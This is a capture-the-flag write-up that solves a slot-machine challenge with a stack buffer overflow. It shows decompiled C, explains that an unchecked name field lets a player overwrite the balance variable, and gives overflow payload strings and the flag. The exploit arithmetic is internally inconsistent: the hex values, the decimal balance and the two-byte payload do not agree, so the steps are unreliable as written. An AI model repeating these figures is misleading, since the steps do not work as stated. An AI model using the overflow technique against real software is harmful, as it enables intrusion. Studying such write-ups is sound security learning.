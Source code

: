 # Rigged Slot Machine 2
> The casino fixed their slot machine algorithm - good luck hitting that jackpot now! 🤭
> nc riggedslot2.ctf.intigriti.io 1337 

## Solution
connecting to the server prompts us to enter in our name, and then after that we are able to "bet"

looking at the binary in ghidra we can see that the binary is a simple slot machine game, but there is a few things to note

```c
void main(void) {
  time_t tVar1;
  int local_2c;
  undefined local_28 [20];
  uint local_14;
  int local_10;
  __gid_t local_c;
  
  setvbuf(stdout,(char *)0x0,2,0);
  local_c = getegid();
  setresgid(local_c,local_c,local_c);
  tVar1 = time((time_t *)0x0);
  srand((uint)tVar1);
  setup_alarm(5);
  local_14 = 100;
  puts("Welcome to the Rigged Slot Machine!");
  puts("You start with $100. Can you beat the odds?");
  enter_name(local_28);
  do {
    while( true ) {
      while( true ) {
        local_2c = 0;
        printf("\nEnter your bet amount (up to $%d per spin): ",100);
        local_10 = __isoc99_scanf(&DAT_0010224e,&local_2c);
        if (local_10 == 1) break;
        puts("Invalid input! Please enter a numeric value.");
        clear_input();
      }
      if ((local_2c < 1) || (100 < local_2c)) break;
      if ((int)local_14 < local_2c) {
        printf("You cannot bet more than your Current Balance: $%d\n",(ulong)local_14);
      }
      else {
        play(local_2c,&local_14);
        if (local_14 == 0x14684c) {
          payout(&local_14);
        }
      }
    }
    printf("Invalid bet amount! Please bet an amount between $1 and $%d.\n",100);
  } while( true );
}
```

we can see that there is some input sanitzation when betting, but when you enter in your name there is none.

we can use this to our advantage to overflow the buffer and overwrite the local_14 variable which holds our balance.

in another function we can see how we get the flag:

```c
void payout(int *param_1) {
  char local_58 [72];
  FILE *local_10;
  
  if (*param_1 != 0x14684c) {
    puts("You can\'t withdraw money until you win the jackpot!");
                    // WARNING: Subroutine does not return
    exit(-1);
  }
  local_10 = fopen("flag.txt","r");
  if (local_10 == (FILE *)0x0) {
    puts(
        "Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server."
        );
                    // WARNING: Subroutine does not return
    exit(0);
  }
  fgets(local_58,0x40,local_10);
  printf("Congratulations! You\'ve won the jackpot! Here is your flag: %s\n",local_58);
  fclose(local_10);
  return;
}
```

we can see that we need to have our balance be EXACTLY 0x14684c to get the flag, which is $1337419.

translating this to ascii we get: hL

the array name is 20 bytes long, so we need a username of 20bytes then 2 bytes of padding, then the 4 bytes of the balance.

so the password looks something like this:
    
    ```shell
    aaaaaaaaaaaaaaaaaaaahL
    ```

trying it out, it does not give us the correct balance, it gave us, something way off, reversing the bytes we get the correct balance.

    ```shell
    aaaaaaaaaaaaaaaaaaaaLh
    ```

this gets us closer to the value, but not quite: 1337419

converting 1337419 to hex we get 0x14664b, wich is exaclty 1 less than the value we need. which is also our bet value

so the actual hex value we need is 0x14664d

converting this to ascii we get and revesring it, then appending it to our garbage value gets us the exact value we need: 1337419

and boom, there is our flag:

    ```shell
    INTIGRITI{1_w15h_17_w45_7h15_345y_1n_v3645}
    ```